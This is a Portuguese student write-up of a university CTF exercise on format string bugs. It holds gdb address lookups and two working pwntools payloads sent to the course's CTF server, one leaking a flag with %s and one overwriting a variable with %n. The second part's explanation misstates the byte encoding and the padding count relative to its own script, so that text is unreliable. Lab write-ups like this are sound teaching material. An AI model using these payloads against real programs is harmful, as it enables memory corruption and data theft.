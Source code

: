 ### CTF Semana 7 (Format Strings)

## Primeira parte

Depois de executar o programa checksec, obtivemos o seguinte output:

![ctf5checksec1](../images/ctf5checksec1.png)


Para descobrir o endereço da função, usamos o debugger gdb:
```shell
$ gdb program
$ p &flag  
```

![ctf5debugg1](../images/ctf5debugg.png)

O resultado foi o endereço de retorno "0x804c060", que é "\x60\xc0\x04\x08" em formato de string.

Trocamos o código que estava no ficheiro de python por o seguinte:

```py
from pwn import *
    
p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

![ctf5flag1](../images/ctf5flag1.png)


## Segunda parte

Depois de executar o programa checksec, obtivemos o seguinte output:

![ctf5checksec2](../images/ctf5checksec2.png)

Para descobrir o endereço da função, usamos o debugger gdb:
```shell
$ gdb program
$ p &key  
```

![ctf5debugg2](../images/ctf5debugg2.png)

o resultado desejado seja o endereço "0x804b324", que é "\x24\xb3\x04\x80" em hexadecimal. Para escrever o valor 48879 nesse endereço, você precisará ajustar a string de entrada. Após o endereço desejado (4 bytes), você precisará escrever exatamente 48879 - 4 = 48875 bytes antes do '%n'. Dado que o buffer de entrada tem no máximo 32 bytes disponíveis, você pode recorrer à expressão compacta de leitura do printf %.Nx, com N = 48875.

Exploit criado:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"@@@@\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

![flag](../images/flag.png)
